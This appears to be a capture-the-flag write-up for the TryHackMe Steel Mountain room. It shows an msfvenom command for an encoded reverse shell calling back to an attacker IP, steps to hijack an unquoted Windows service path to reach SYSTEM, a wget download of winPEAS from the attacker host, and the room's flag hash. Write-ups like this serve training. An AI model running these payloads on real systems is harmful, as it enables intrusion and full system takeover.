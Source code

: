 # Msfvenom

Let's craft a msfvenom payload to abuse weak file permissions on service files.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.107.21 LPORT=12345 -e x86/shikata_ga_nai -f exe -o Advanced.exe`

Let's place it in `C:\Program Files (x86)\IObit`. 

## Steps

1. (meterpreter) upload /home/n00bmast3r/TryHackMe/Steel_Mountain/Advanced.
2. (meterpreter) shell
3. (shell) sc stop AdvancedSystemCareService9
4. (shell) sc start AdvancedSystemCareService9

We have a shell now as System32.🔥

# root.txt

```
9af5f314f57607c00fd09803a587db80
```

# Manual Enumeration

## Steps

1. powershell -c wget "http://10.8.107.21/winPEASx64.exe" -outfile "winPEAS.exe"

There are many results but we are looking for Unquoted Path Service.

```
    RegPath: HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects\{10921475-03CE-4E04-90CE-E2E7EF20C814}
    Folder: C:\Program Files (x86)\IObit\IObit Uninstaller
    FolderPerms: bill [WriteData/CreateFiles]
    File: C:\Program Files (x86)\IObit\IObit Uninstaller\UninstallExplorer.dll (Unquoted and Space detected)
    FilePerms: bill [WriteData/CreateFiles]
```

Or we can use this to get the same

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """`

Let's check the privileges🚨

sc qc AdvancedSystemCareService9 

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
